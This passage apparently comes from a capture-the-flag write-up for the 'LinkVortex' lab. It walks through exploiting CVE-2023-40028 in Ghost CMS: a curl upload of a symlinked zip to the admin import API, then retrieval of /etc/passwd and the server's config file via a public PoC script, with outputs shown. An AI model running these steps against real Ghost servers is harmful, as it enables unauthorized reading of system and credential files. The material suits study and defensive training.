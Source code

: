#### 📤 6. Send the payload via `curl` (with cookie in header)
```bash
curl -s \
  -H "X-Ghost-Version: 5.58" \
  -H "Cookie: ghost-admin-api-session=s%3ASX0VB4_Q_-Q41_RCTID0J--gb9QOeg0i.C7kB58yM9xYDzYxBMTl0X5rz9qDm63tumXpjzQATDbo" \
  -H "Content-Type: multipart/form-data" \
  -F "importfile=@exploit.zip;type=application/zip" \
  "http://linkvortex.htb/ghost/api/v3/admin/db"
```
🔐 **Important:**  
- Replace the value of `ghost-admin-api-session` with **your own valid session cookie**, which you can obtain after logging into the Ghost admin panel (`/ghost/`) in your browser. You can extract this cookie from your browser's developer tools → `Storage` or `Application` tab.
- If the session is expired or incorrect, the server will reject the request with a `403 Forbidden`.

✅ If the symlink inside the zip is not filtered, the server processes it, and the target file becomes accessible (either via output or secondary mechanism like quarantine).
#### 📄 7. Retrieve the File Content 
Once the `.zip` archive containing the symlink has been successfully uploaded and processed by Ghost, the symlinked file becomes available under the standard public path used by the CMS to serve images.
Assuming you named the file `exploit.png`, you can retrieve its content with:
```bash
curl -s http://linkvortex.htb/content/images/2024/exploit.png
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
```
This confirms that the vulnerability allows **arbitrary file read** through symbolic link abuse combined with the Ghost CMS import mechanism.
#### 🔹 3.2 Exploitation via Public PoC Script
- Used the public PoC script for CVE-2023-40028: [CVE-2023-40028 Ghost Shell](https://github.com/0xyassine/CVE-2023-40028)
- File read confirmed via symlinked `.png`
```bash
❯ chmod +x Ghost-5.58-RCE-CVE-2023-4002.sh
❯ ./Ghost-5.58-RCE-CVE-2023-4002.sh  -u 'admin@linkvortex.htb' -p 'OctopiFociPilfer45'
WELCOME TO THE CVE-2023-40028 SHELL
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
```